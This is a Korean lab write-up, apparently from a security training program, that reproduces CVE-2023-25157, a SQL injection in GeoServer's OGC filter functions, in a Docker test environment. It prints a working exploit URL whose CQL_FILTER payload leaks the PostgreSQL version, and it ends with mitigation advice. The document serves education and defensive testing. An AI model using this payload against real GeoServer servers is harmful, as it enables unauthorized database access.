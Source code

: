 # GeoServer OGC Filter SQL Injection (CVE-2023-25157)

> 화이트햇 스쿨 3기(35반) -  [손예은](https://github.com/ye-nni/)
> </br>
> https://github.com/ye-nni/kr-vulhub/tree/main/geoserver/CVE-2023-25157
</br>
> https://github.com/gunh0/kr-vulhub/pull/300
</br>

### 요약
- GeoServer는 Java로 작성된 오픈 소스 소프트웨어 서버로, 지리공간 데이터를 보고, 편집하고, 공유할 수 있는 기능을 제공합니다.
- GeoServer는 지리정보시스템(GIS) 데이터베이스, 웹 기반 데이터, 개인 데이터세트 등 다양한 소스의 지리공간 데이터를 배포하는 유연하고 효율적인 솔루션으로 설계되었습니다.
- 2.22.1 및 2.21.4 이전 버전에서는 OGC(Open Geospatial Consortium) 표준에서 정의한 필터 및 함수 표현식에서 SQL Injection 문제가 발견되었습니다.
- SQL Injection 취약점이 발생하는 경우는 구체적으로 `PropertyIsLike` 필터를 문자열 필드가 있는 모든 JDBCDataStore와 함께 사용하는 경우, `strEndsWith` 함수를  "encode functions"이 활성화 된 PostGIS DataStore와 함께 사용하는 경우 등이 있습니다.
- 이번 테스트에서는 `strStartsWith` 함수를 "encode functions"이 활성화된 PostGIS DataStore와 함께 사용할 경우를 테스트 합니다.

References:
- <https://github.com/murataydemir/CVE-2023-25157-and-CVE-2023-25158>
- <https://github.com/advisories/GHSA-7g5f-wrx8-5ccf>
</br>

### 환경 구성 및 실행
다음 명령어로 테스트 환경에서 GeoServer instance 2.22.1을 실행합니다:
```
docker compose up -d
```
서버가 시작되면 `http://your-ip:8080/geoserver`에서 기본 페이지를 볼 수 있습니다.

</br>

### 테스트
취약점을 익스플로잇하기 전에 먼저 PostGIS DataStore가 포함된 워크스페이스를 찾아야 합니다. Vulhub의 GeoServer 인스턴스에는 이미 PostGIS DataStore가 있습니다:
- Workspace name: `vulhub`
- Data store name: `pg`
- Feature type (table) name: `example`
- One of attribute from feature type: `name`

이를 이용한 아래 URL을 통해 서버를 익스플로잇 할 수 있습니다:
```
http://your-ip:8080/geoserver/ows?service=wfs&version=1.0.0&request=GetFeature&typeName=vulhub:example&CQL_FILTER=strStartsWith%28name%2C%27x%27%27%29+%3D+true+and+1%3D%28SELECT+CAST+%28%28SELECT+version()%29+AS+integer%29%29+--+%27%29+%3D+true
```
</br>

### 결과
![](result1.JPG) 
![](result2.JPG)
![](result3.png)

위 사진을 통해 PostgreSQL 버전은 SQL Injection을 통해 GeoServer에서 검색(retrieve)된 것을 알 수 있습니다. 
이러한 취약점을 막기 위해 GeoSever의 버전을 업그레이드하는 것이 권장되며, PostGIS DataStore에서 "encode functions"을 비활성화하여 일시적으로 완화할 수 있습니다.
